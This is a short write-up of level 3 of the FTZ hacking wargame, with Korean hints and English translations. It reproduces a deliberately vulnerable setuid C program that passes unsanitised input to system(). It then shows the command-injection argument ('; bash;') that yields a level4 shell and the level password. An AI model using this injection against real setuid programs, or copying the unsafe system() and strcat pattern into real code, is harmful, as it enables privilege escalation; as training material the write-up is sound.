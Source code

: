 # Level3

This level's goal

- system('CMD') vulnerability

***

`[level3@ftz level3]$ cat hint`

다음 코드는 **autodig**의 소스이다.
(This code is autodig's source)
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

char cmd[100];

if( argc!=2 ){
    printf( "Auto Digger Version 0.9\n" );
    printf( "Usage : %s host\n", argv[0] );
    exit(0);
}

strcpy( cmd, "dig @" );
strcat( cmd, argv[1] );
strcat( cmd, " version.bind chaos txt");

system( cmd );
}
```

이를 이용하여 level4의 권한을 얻어라.
(Get level4's permission with using this)

more hints.

1) 동시에 여러 명령어를 사용하려면?
(how to use several commands at the same itme?)

2) 문자열 형태로 명령어를 전달하려면?
(how to pass the command of string?) 
***

```
[level3@ftz level3]$ find / -name autodig 2>/dev/null
/bin/autodig
[level3@ftz level3]$ find / -user level4 -perm -4000 2>/dev/null
/bin/autodig
[level3@ftz level3]$ ls -l /bin/autodig
-rwsr-x---    1 level4   level3      12194 Aug 19  2014 /bin/autodig
```

```
[level3@ftz level3]$ /bin/autodig "8.8.8.8 www.naver.com; bash;"
[level4@ftz level3]$ my-pass

Level4 Password is "suck my brain".
```

